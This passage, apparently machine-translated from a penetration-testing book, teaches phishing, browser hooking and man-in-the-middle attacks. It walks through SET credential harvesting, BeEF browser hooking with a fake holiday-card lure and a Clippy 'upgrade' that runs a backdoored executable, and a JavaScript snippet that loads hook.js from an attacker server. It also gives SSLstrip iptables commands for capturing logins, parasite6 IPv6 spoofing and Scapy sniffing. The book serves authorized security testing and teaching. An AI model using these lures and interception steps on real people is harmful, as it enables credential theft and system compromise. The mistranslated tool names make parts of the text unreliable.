

当用户在浏览器中输入 IP 地址时，它看起来确实像原始站点。我们使用一个新帐户登录，SET 成功地将我们（假装现在是易上当的用户）无缝地重定向到实际的网站，而没有任何明显的行为改变。此特定的 SET 选项将提取所有 POST 事务，因此它还可以捕获其他表单填充流量、帐户信息等：



当我们浏览到`/var/www/html/`目录时，您应该会看到一个文件（或者更多，如果您在多个会话上运行过此功能），该文件以名称`harvester`开头，并在文件名中包含时间戳。如果您编辑这些文件（我们选择了`nano`，您确实可以看到用户名和密码。如果这不能说服您在自己的帐户上启用双因素身份验证，并特别注意在何处使用凭据，则不会：


## 牛肉钓鱼

牛肉（[http://beefproject.com/](http://beefproject.com/) 是另一种工具，通常被归类为漏洞渗透测试、蜜罐和社会工程。我们甚至可以使用 BeEF 来托管恶意 web 服务器，如 SET。然而，使 BeEF 强大的是它利用 web 浏览器中的弱点进行攻击，这可能让我们找到一种方法，即使我们的目标用户更加偏执或训练有素。当受害者连接到 BeEF 服务器时，BeEF 将钩住系统并检查受害者的 web 浏览器对各种攻击的脆弱性。基于这些发现，BeEF 将提供一系列可以启动的命令模块，如截图或触发蜂鸣声。钩住的系统只能在联机时访问。然而，一旦上钩，BeEF 可以跟踪系统何时建立 Internet 连接以继续针对该系统启动命令。

许多渗透测试人员使用 BeEF 进行授权渗透测试，因为它不需要修改端点系统来获得成功。这意味着在渗透测试后，客户不安的风险更小，清理也更少。

我们发现，使用简单的社会工程策略，例如开发一张假假日电子卡并将其发布在社交媒体源上，或通过电子邮件发送到攻击服务器的链接，是让受害者访问我们的牛肉服务器的非常有效的方法。一张非常基本但可信的节日贺卡很容易拼凑起来，只需收集几张图片，并用粗体字说明场合即可。

下图表示从内部网络上的 Raspberry Pi 运行 BeEF 服务器，目标是连接本地系统。为了让用户访问 BeEF 服务器，该示例显示攻击者发送电子邮件，其中包含指向 BeEF hook 服务器上托管的**假假日卡**的链接。一旦受害者点击链接，他们就会看到节日卡，并被牛肉所吸引。当被钩住的受害者继续使用互联网时，攻击者可以从 Raspberry Pi 远程执行命令模块：


让我们浏览一下构建此攻击场景。

要启动 BeEF，请使用`cd /usr/share/beef-xss`导航到 BeEF 目录，然后使用`./beef`运行 BeFF 脚本：


运行 BeEF 脚本后，您可以通过打开 web 浏览器并将其指向`http://ip_address_of_raspberry_pi_ kali:3000/ui/panel`来访问基于 web 的 BeEF 控制面板。以下屏幕截图显示了 BeEF 的主要登录页面：


您可以使用**用户名****牛肉**和**密码****牛肉**登录。

像其他社会工程攻击一样，我们需要欺骗受害者进入钩子页面。BeEF 附带了一些基本的演示挂钩页面；然而，像 SET 一样，这些页面非常基本，可能不会欺骗普通用户。我们通过`http:// ip_of_pi_kali:3000/demos/butcher/index.html`查看基本的钩子页面来测试牛肉。除了幽默之外，它还有一个额外的好处，就是用一个名为`hook.js`的 JavaScript 连接我们系统的浏览器。

### 提示

在现实世界中，您需要编辑演示页面，使其看起来可信。你的用户不需要停留在页面上就可以上钩；但是，如果它看起来可疑，他们可能会报告。您还可以添加带有选项卡劫持技术的 JavaScript 模板。

一旦系统被钩住，我们可以在控制面板中看到受害者的浏览器，他们可以发送各种不同的命令。在某些情况下，我们可能会向用户发送更复杂、更有价值的攻击。在其他情况下，我们可能只能从客户端检索基本信息。可用的命令取决于受害者使用的 web 浏览器的类型，以及该 web 浏览器使用安全修补程序的最新情况。图中显示了我们的测试设置，其中有一台挂接的 Mac OSX 机器运行 Firefox，并有许多可用的漏洞和工具，如下所示：



模块树显示了可以针对钩住的受害者运行的可能的漏洞攻击。还包括对每次攻击的描述以及指向其他阅读的链接，以帮助我们更好地了解每个命令的影响、模式和目标。

### 注

BeEF 包括每个命令的风险级别，该级别定义了命令工作的可能性以及警告恶意行为受害者的风险。强烈建议您在进行实时渗透测试之前，在实验室环境中针对类似于挂钩目标的系统测试漏洞利用。在测试过程中，我们发现一些漏洞利用并不像在实时系统上宣传的那样有效。

在可利用的浏览器上利用命令的一个例子是发送 JavaScript 模板以诱骗用户单击某个内容。因此，对于下面的示例，我们将发送老式的**Clippy**弹出窗口，要求用户升级他们的浏览器。我们将包含一个链接，该链接包含一个匹配的浏览器安装文件，该文件已使用后门应用程序包装。本章前面的*使用 Metasploit 攻击目标*部分介绍了创建有效负载、对其进行编码以绕过安全防御以及使用可信可执行文件包装有效负载的主题。有一些模块可以让我们访问设备的网络摄像头，查看其软件状态和应用程序列表，获取 cookies，然后继续。其中一些对于渗透测试的合法价值值得怀疑，但是那些能够揭示更多关于目标系统的信息并可能为其他主机提供跳转点的测试对我们来说非常有意义。通过牛肉收集信息是一回事，但提供不稳定（非永久性）的有效载荷可以改变游戏规则。

启动此攻击的第一步是转到 BeEF 管理控制台中的**命令**选项卡：


从那里，点击`Social Engineering`文件夹，找到 Clippy 攻击：



您会注意到，**Clippy**攻击的默认设置是内置的。基本上，它将下载一个 JavaScript 模板，其中包含托管在内部站点上的**Clippy**的图像文件。它还将下载并运行一个`.exe`文件。在下面的示例中，它下载并运行`putty.exe`。请注意，以下屏幕截图中显示的可执行代码链接比显示窗口长。这可以是任何你想要的攻击：



我们可以让**Clippy**在下载前后显示一条消息。默认设置显示消息**您的浏览器似乎已过时。您想升级它吗？**下载前显示**感谢您升级浏览器！期待一个更安全、更快的网络！**下载后。

此攻击基于浏览器。因此，与早期版本的 Microsoft Word 中出现的原始**Clippy**不同，无论操作系统如何，这种攻击都会起作用。它适用于任何支持 JavaScript 的浏览器。在以下屏幕截图中，我们显示了对没有正确版本的 Microsoft Office 的 Mac OS X 计算机的攻击：


我们经常被问到，如果没有与 BeEF 一起提供的明显的演示页面，如何能够钩住受害者浏览器。可以在任何网页上使用以下 JavaScript 命令来钩住浏览器：

```
%20(function%20()%20{%20var%20url%20=%20%27http:%2f%10.5.8.74
%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20 {%20var%20bf%20=%20document.createElement(%27script%27);%20bf
.type%20 =%20%27text%2fjavascript%27;%20bf.src%20=%20url;
%20document.body. appendChild(bf);}})();

```

我们仍然需要在运行 JavaScript 命令的方式上有所创新。它可以自动运行，嵌入广告，或任何其他创造性的方式。我们只需用 BeEF 服务器替换 JavaScript 命令中的 IP 地址变量。我们必须注意到，在上一个示例中，服务器的 IP 地址是 10.5.8.74。您需要将其替换为服务器的 IP 地址。确保受害者计算机可以访问您的 BeEF 服务器，否则此攻击将无法工作。

对于套餐和牛肉，准备是关键。我们将需要确保我们对所有攻击进行策划，以解决任何问题，最大限度地减少错误，并确保我们尽可能真实地呈现一个正面，以防止目标环境的用户意识到他们受到了攻击。

# 处死中间人攻击

侦察/武器化和入侵/利用阶段最重要的概念之一是充当 MITM。我们在上一章中稍微提到了这一点，我们使用 ARPspoof 和 Ettercap 等工具，使用软件在主机之间进行内联定位，或者使用多个网络接口进行物理内联定位。上一章中的目标是获取主机之间发生的事情的某种智能，以便我们能够收集重要信息，以便稍后用于入侵和利用。现在，我们在渗透测试中走得更远了，我们将利用这个绝佳的位置使用一些伟大的工具，而不仅仅是窥探。在渗透测试方面，这是一个非常重要的概念，因为我们试图帮助暴露和强化客户网络的许多攻击都使用这些技术。如果我们不能在需要的地方成功地获得 MITM 的地位，我们将有一个向上爬的过程来证明我们的价值。

对于上一章的简要回顾，将 Raspberry Pi 在主机之间物理内联是执行 MITM 攻击的一种非常有效的方法。根据网络基础设施的安全性，我们不需要运行任何工具（例如，使用动态 ARP 检查或 DAI 等工具）。也就是说，有一些失败。首先，获得物理访问权限可能是不可能的，或者风险太大，因为这意味着物理访问数据中心或网络机柜，以便在两台主机之间插入设备。这是非常重要的，因为这些敏感区域应该而且经常需要升级权限才能访问。如果它被认为是必要的，我们可能需要进行某种社会工程工作来首先获得这种访问权。

第二个主要缺点是，根据我们定位设备的链接类型，我们的可视性可能有限。但是，还有其他方法，主要是通过软件工具，帮助我们在指定的任何主机之间进行内联。这使我们能够根据所看到的情况灵活地进行更改，而无需重新布线。但是，同样取决于目标公司的网络基础设施，这些工具可能无效或使用有限。

由于我们在上一章中讨论了如何在主机之间进行内联，因此我们将在本章中重点介绍利用漏洞和入侵工具。

## SSLstrip

SSLstrip（[https://moxie.org/software/sslstrip/](https://moxie.org/software/sslstrip/) ）是一种 MITM 攻击工具，它透明地查看 HTTPS 流量，劫持它，替换任何 HTTPS 链接，并使用 HTTP lookalikes 重定向。其全部目的是欺骗我们可怜的用户，让他们认为他们在 HTTPS 会话中是安全的，但实际上他们正在通过 HTTP 传递所有不清楚的信息。这是一个非常聪明的工具，可以从这些流量中获取各种凭证和个人信息。

### 提示

许多网站都有 HTTP 和 HTTPS 版本。最佳实践是根本没有 HTTP 版本的网站；然而，有些网站仍然维护 HTTP 版本，因此用户在键入 HTTP 和 HTTPS 时不会出错。许多人正在改变这一过程，但要全面实现这一点还需要一段时间。

为了让这个工具工作，我们需要在目标主机和它们的默认网关之间建立一个 MITM。要做到这一点，我们需要使用 ARPSoof，并确保我们的系统已设置为 IP 转发。

### 注

有关如何使用此工具或如何设置您的机器以转发流量的信息，请参阅[第 4 章](4.html#ch04 "Chapter 4.  Explore the Target - Recon and Weaponize")、*探索目标-侦察和武器化*。这两个问题都在那里讨论过。还有一些内置 SSLstrip 的设备，例如 Wifi 菠萝。

SSLstrip 还有一个额外的工作步骤。我们需要设置`iptables`将 HTTP 流量重定向到您配置`sslstrip`运行的端口上的本地 SSLstrip。以下是获取`iptables`以执行此任务的命令（注意`$LISTEN-PORT`变量应更改为我们计划让 SSLstrip 侦听的端口）：

```
iptables -t nat -A PREROUTING -p tcp --destination-port 
80 -j REDIRECT --to-port $LISTEN-PORT

root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 
80 -j REDIRECT --to-port 8080

```

现在我们有了`iptables`将流量重定向到我们选择的指定端口，我们可以在正确的端口上启动`sslstrip`。以下是使 SSLstrip 启动并运行的命令：

```
root@kali:~# sslstrip -a -l 8080 -w sslstrip.log  
sslstrip 0.9 by Moxie Marlinspike running... 

```

在这之后，我们应该拦截交通。我们可以查看我们的日志文件，看看是否有来自我们的目标所在地的信息。在我们的测试环境中，我们让用户点击一些站点来查看我们可以获得什么，这就是它变得非常有趣的地方。在我们的示例中，我们点击了[http://www.aol.com/](http://www.aol.com/) **。**站点恢复正常，回到目标系统。但有一件事是不同的。以下屏幕截图显示了该目标系统上的浏览器地址栏：


你能看见吗？没错，该站点通过 HTTP 返回。现在，有一个`-f`标志被认为是伪造 favicon 的，但是很多浏览器不再显示它了，所以它没有那么有效。所有这些都是好消息，但那又怎样？嗯，对于没有注意到链接不再是 SSL 的人，他们可能会登录到该站点，猜猜日志文件中显示了什么？这就是登录信息！以下是我们登录网站时日志文件的屏幕截图：


所以，在收集所有这些信息的过程中，我们可以看到这个工具有多么强大，我们可以多么快地获得信息。

## 6

如果我们遇到 IPv6 网络，需要进行渗透测试，会发生什么情况？对于我们之前讨论过的 MITM 工具，我们只参考了 IPv4 网络。随着 IPv4 分配变得越来越难，ARIN 的所有 IPv4 空间都已耗尽，IPv6 只会变得越来越突出。有了这个挑战，你有什么选择？嗯，这就是寄生虫 6 发挥作用的地方。

**6**是`thc-ipv6`（[的一部分 https://www.thc.org/thc-ipv6/](https://www.thc.org/thc-ipv6/) 工具包。在这个软件包中有很多很棒的 IPv6 工具。这些工具的作者意识到，目前缺乏可用于渗透测试的 IPv6 工具，而且现有的工具也不是很好，因此他决定创建这个库来填补这一空白。

`thc-ipv6`包的主主页是跟踪新开发的重要资源，并且有大量的附加文档。

寄生虫 6 是 IPv6 的欺骗。该工具将欺骗 IPv6 内的邻居广告和请求数据包。

### 注

在 IPv6 中，没有 ARP 的概念。邻居请求/广告在 IPv6 上执行类似 ARP 的功能，这就是 Paradise6 使用这种消息的原因。

我们将在我们的基础设施上利用该命令对我们的 IPv6 网络执行 MITM 攻击，并验证我们的位置是否正确。由于 Paradister6 只是一个让 Raspberry Pi 在预定目标和目标之间内联的工具，我们仍然需要一个程序来捕获数据。这可能类似于 SSL 通信的 SSLstrip，但如果我们正在研究明文协议，我们也可以使用`dnsiff`或`driftnet`作为其他替代方案。

在我们的测试环境中，我们正在利用第三方公司提供 IPv6 隧道代理服务。这允许我们通过使用 IP 协议 41 在 IPv4 隧道上通过隧道传输 IPv6 流量，从而实现 IPv6 访问。我们有一个 64 位分配，允许我们将 IPv6 地址分配给我们的内部主机，并通过隧道路由这些主机。因此，我们实际上可以展示使用 IPv6 攻击外部 internet 站点的真实尝试。

第一件事优先；我们需要安装 thc-ipv6 才能访问 Paradise6。以下是我们通过 CLI 安装它的输出：

```
root@kali:~#sudo apt-get install thc-ipv6 

```

一旦完成，我们需要确保一旦我们截获了 IPv6 数据包，就会将它们转发回网络。这种方法非常类似于我们在房子的 IPv4 端使用 ARPSoof 的方法。为此，我们只需更新以下变量：

```
root@kali:~#echo 1 > /proc/sys/net/ipv6/conf/all/forwarding 

```

现在我们已经设置好了，我们可以运行`parasite6`来查看 CLI 上有哪些选项。以下是`parasite6`命令的输出：

```
root@kali:~# atk6-parasite6 
atk6-parasite6 v2.7 (c) 2014 by van Hauser / THC <vh@thc.org> 
www.thc.org 

Syntax: atk6-parasite6 [-lRFHD] interface [fake-mac] 

This is an "ARP spoofer" for IPv6, redirecting all local traffic 
to your own system (or nirvana if fake-mac does not exist) by 
answering falsely to 
Neighbor Solitication requests 
Option -l loops and resends the packets per target every 5 seconds. 
Option -R will also try to inject the destination of the solicitation 
NS security bypass: -F fragment, -H hop-by-hop and -D large 
destination header 

```

在充分了解命令选项后，我们准备在实验室中运行该命令。与之前的 MITM 攻击一样，在 Raspberry Pi 上有多个终端会话是必要的。在第一个终端窗口中，我们运行寄生虫命令开始让其他 IPv6 主机知道向我们的 Raspberry Pi 发送流量，在另一个窗口中，我们将运行`tcpdump`来验证流量：

```
atk6-parasite6 -lR eth0 

```

一旦我们开始运行`parasite6,`，您将开始注意到伪造的数据包正向我们的`src`和`dst`方向移动：


一旦我们开始看到这些伪造的数据包消息通过，流量就应该通过 IPv6 主机的 Raspberry Pi。我们可以通过运行包嗅探器（如`tcpdump.`）来验证这一点

### 注

根据您在 Raspberry Pi 上执行的其他操作，您可能需要编写非常特定的过滤器，以确保捕获所需的数据。在我们的实验室里，我们没有任何其他东西通过 Pi，所以我们可以只基于端口进行过滤。但是，如果我们的 Raspberry Pi 中有其他项目，我们将只指定 IPv6 加上我们正在查看的端口。

以下是我们的 tcpdump 的屏幕截图，用于验证来自目标源的 IPv6 流量是否正确通过我们的 Pi：


我们还运行了一个`tcpdump`并将其写入`PCAP`文件，这样我们就可以在一个更健壮的平台上分析数据包捕获。在我们的一些测试中，通过 X-Windows 会话在 Pi 上运行 Wireshark 的速度非常缓慢，我们无法及时获得所需的信息。要使用适当的过滤器将 tcpdump 写入文件，我们在 Raspberry Pi 上运行以下命令。我们正在使用一个过滤器来调整我们的`tcpdump`性能。本书中`tcpdump`的调整将只关注手头任务所需的相关信息：

```
root@kali:~# tcpdump -w http-ipv6.pcap port 80 and ip6 
tcpdump: listening on eth0, link-type EN10MB (Ethernet),

capture size 262144 bytes 
^C116 packets captured 
124 packets received by filter 
0 packets dropped by kernel

```

一旦我们有了文件，我们就可以使用 SCP 将该文件发送到另一台功能更强大的计算机。这将允许我们执行更多的硬件密集型检查，而由于硬件限制，我们无法在 Raspberry Pi 上执行这些检查。我们可以使用 SCP 来确保信息被安全地传输。

我们将使用 Wireshark 分析我们在`PCAP`文件中捕获的流。加载后，我们现在跟踪其中一个 TCP 流，查看它包含的内容，并通过使用`parasite6`执行我们的 MITM 攻击来验证我们是否在 Pi 上获取了内容：


在这里，我们可以看到，我们从外部 IPv6 主机（`2001:470:0:76::2`和我们的目标机器获得内容响应，我们可以在**用户代理**字段中看到关于它的一些信息。

正如我们所看到的，即使是 IPv6 也不能免疫 MITM 攻击。通过适当的工具，我们可以测试目标的 IPv6 网络。这只是找到适合这项工作的正确工具的问题。

## 操纵数据

操作数据的能力是任何渗透测试人员的关键任务。用于数据操作的最强大工具之一是**Scapy**。Scapy 可以被认为是所有工具中的工具。Scapy 可以执行很多功能。作者本人提到了 Scapy 如何覆盖工具 85%的功能，例如 nmap、arpsopof、tcpdump 和 p0f，仅举几个例子。但是这个工具的优点在于它还可以很好地完成很多其他非常具体的任务，比如构建自己的数据包和堆叠层。Scapy 中使用的语法将提醒您使用 Python 编程。所以，如果你有编程背景，那么你很快就能学会。

在本节中，我们将介绍 Scapy 可以执行的一系列不同功能，并在我们的实验室中展示这些功能的示例。

### 提示

Scapy 的许多功能确实需要 root 权限才能执行。因此，如果您不是以 root 身份运行 Scapy，则需要使用`sudo.`

首先，我们将在命令行中键入`scapy`。该工具将启动，并为我们可能丢失的任何软件包提供任何错误消息。我们应该在`>>>`提示下结束：

```
root@kali:~# scapy 
INFO: Can't import python gnuplot wrapper . Won't be able to plot. 
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump(). 
Welcome to Scapy (2.3.2) 
>>>

```

### 提示

要随时访问帮助，请在提示下键入`help()`以浏览交互式帮助菜单。要离开帮助菜单，只需键入`q`。您也可以通过以下 URL 访问帮助：[http://docs.python.org/2.7/tutorial/](https://docs.python.org/2.7/tutorial/) 。

### 在 Scapy 嗅探网络

对网络执行快速嗅探是验证网络各种功能的好方法，或者验证我们正在使用的其他工具是否正常工作。在 Scapy 中运行数据包嗅探功能非常容易。这和使用`sniff()`功能一样简单。在下面的示例中，我们正在嗅探所有接口上的流量，一旦完成，我们将得到一个快速的协议分解：

```
>>> sniff() 
^C<Sniffed: TCP:35 UDP:6 ICMP:0 Other:56> 

```

如果我们想查看更多信息，例如每流细分，我们可以分配一个变量并使用`nsummary()`函数输出我们捕获的所有流：

```
>>> b=_ 
>>> b.nsummary() 
0000 Ether / fe80::3e15:c2ff:fedc:2b4 > ff02::1:ffdc:2b4 (0) /
IPv6ExtHdrHopByHop / ICMPv6MLReport 
0001 Ether / fe80::7256:81ff:fe56:4798 > ff02::1:ff46:b94a (0) / 
IPv6ExtHdrHopByHop / ICMPv6MLReport 
0002 802.3 58:ac:78:7e:74:97 > 01:00:0c:cc:cc:cd / LLC / SNAP / 
STP / Raw 0003 Ether / fe80::7256:81ff:fe56:4798 > 
ff02::1:ffe9:87e2 (0) / IPv6ExtHdrHopByHop / ICMPv6MLReport 0004 802.3 00:e1:6d:95:cb:2e > 01:80:c2:00:00:00 / LLC / STP / Raw / Padding 
0005 Ether / fe80::7256:81ff:fe56:4798 > ff02::1:ff56:4798 (0) 
/ IPv6ExtHdrHopByHop / ICMPv6MLReport 
0006 802.3 00:e1:6d:95:cb:2e > 01:00:0c:cc:cc:cc / LLC / SNAP 
/ Raw 0007 802.3 58:ac:78:7e:74:97 > 01:00:0c:cc:cc:cd / LLC / SNAP 
/ STP / Raw 0008 Ether / fe80::15:fbfe:ab8e:20e7 > ff02::1:ff8e:20e7
(0) / IPv6ExtHdrHopByHop / ICMPv6MLReport 
0009 802.3 00:e1:6d:95:cb:2e > 01:80:c2:00:00:00 / LLC / STP / Raw /
Padding 0010 Ether / IP / UDP 192.168.1.38:62209 > 239.255.255.250:1900 
/ Raw 0011 802.3 58:ac:78:7e:74:97 > 01:00:0c:cc:cc:cd / LLC / SNAP / 
STP / Raw 0012 Ether / IPv6 / UDP fe80::462b:3ff:fea9:626d:dhcpv6_client > ff02::1:2:dhcpv6_server / DHCP6_Solicit / DHCP6OptElapsedTime / 
DHCP6OptClientId / DHCP6OptOptReq / DHCP6OptIA_NA 
0013 802.3 58:ac:78:7e:74:97 > 01:00:0c:cc:cc:cc / LLC / SNAP / Raw 
/ Padding 0014 Ether / IP / UDP 192.168.1.38:62209 > 239.255.255.250:1900 
/ Raw 0015 802.3 00:e1:6d:95:cb:2e > 01:80:c2:00:00:00 / LLC / STP / Raw 
/ Padding 0016 Ether / IP / UDP 192.168.1.38:62209 > 239.255.255.250:1900 
/ Raw 0017 802.3 58:ac:78:7e:74:97 > 01:00:0c:cc:cc:cd / LLC / SNAP / STP 
/ Raw 0018 Ether / IP / UDP 192.168.1.38:62209 > 239.255.255.250:1900 
/ Raw 0019 802.3 00:e1:6d:95:cb:2e > 01:80:c2:00:00:00 / LLC / STP / Raw 
/ Padding 0020 Ether / IP / TCP 192.168.1.38:58334 > 192.168.1.222:ssh PA 
/ Raw 0021 Ether / IP / TCP 192.168.1.222:ssh > 192.168.1.38:58334 PA 
/ Raw 0022 Ether / IP / TCP 192.168.1.222:ssh > 192.168.1.38:58334 PA 
/ Raw 0023 Ether / IP / TCP 192.168.1.38:58334 > 192.168.1.222:ssh A 

```

接下来，假设我们想进一步研究其中一个流。这必须是 Scapy 中嗅探功能最酷的功能之一。因为`b`变量基本上是一个数组，所以我们可以像在编程语言中一样调用所需的确切流，并获取该流的所有详细信息。在这里，我们看的是`b`变量中的流量`22`：

```
>>> b[22] 
<Ether  dst=3c:15:c2:dc:02:b4 src=b8:27:eb:6a:35:5f type=0x800 
|<IP  version=4L ihl=5L tos=0x10 len=108 id=58420 flags=DF frag=0L 
ttl=64 proto=tcp chksum=0xd1f2 src=192.168.1.222 dst=192.168.1.38 
options=[] |<TCP  sport=ssh dport=58334 seq=3395478634L 
ack=599317350 dataofs=8L reserved=0L flags=PA window=355 
chksum=0x84b3 urgptr=0 options=[('NOP', None), ('NOP', None), 
('Timestamp', (2438388, 204884834))] |<Raw  load='\x00\x00\x00 \x9e\x11\xb7\xe1\xde1P7\xe0\x86\xac\x14k\xaf\xbe\xe4\x91L\x06\
xcd2\xc5v\x08Q\xee\xd5\xa3k\xa7\xd0\xdf\xba\x03\x8f)d\xcf\xac\
xb5\x8eQ\r*\xc6\x03\x9e\x07N\x1c\x05\x04' |>>>>

```

### 写入/读取 PCAP 文件

Scapy 还可用于写入和读取`PCAP`文件。这可能非常方便，因为您不必加载 Wireshark 等非常繁重的应用程序，您可以随时进行所需的分析。

对于读取 PCAP 文件，有两个不同的选项。在第一个示例中，我们引入了一个`PCAP`文件，以获取有关协议崩溃的一些快速信息。因此，默认情况下，它将为您提供`PCAP`文件中所包含内容的简要说明：

```
>>> a=rdpcap("ipv6.pcap") 
>>> a 
<ipv6.pcap: TCP:592 UDP:0 ICMP:0 Other:0> 
>>> b=rdpcap("http-ipv6.pcap") 
>>> b 
<http-ipv6.pcap: TCP:116 UDP:0 ICMP:0 Other:0> 
>>>

```

现在，如果我们想要更多的信息，就像逐流可见性一样，我们也有这种能力。我们可以通过 show 功能对`PCAP`文件进行分组分解得到这个数据包。这与我们在 Wireshark 中看到的类似：

```
>>> c=rdpcap("SSH.pcap") 
>>> c.show() 
0000 Ether / IP / TCP 192.168.1.38:53029 > 192.168.1.222:ssh A 
0001 Ether / IP / TCP 192.168.1.38:53029 > 192.168.1.222:ssh PA / Raw 

```

如果这还不够详细，我们甚至可以深入研究。假设有一个我们想要调查的特定流程；我们可以根据流数提取这些信息。这是我们实验室的一个例子，我们正在寻找更多关于流量`22:`的信息

```
>>> c[22] 
<Ether  dst=3c:15:c2:dc:02:b4 src=b8:27:eb:6a:35:5f type=0x800 |
<IP  version=4L ihl=5L tos=0x10 len=108 id=58420 flags=DF frag=0L 
ttl=64 proto=tcp chksum=0xd1f2 src=192.168.1.222 dst=192.168.1.38 
options=[] |<TCP  sport=ssh dport=58334 seq=3395478634L ack=599317350 
dataofs=8L reserved=0L flags=PA window=355 chksum=0x84b3 urgptr=0 
options=[('NOP', None), ('NOP', None), ('Timestamp', 
(2438388, 204884834))] |<Rawload='\x00\x00\x00\x9e\x11\xb7\xe1
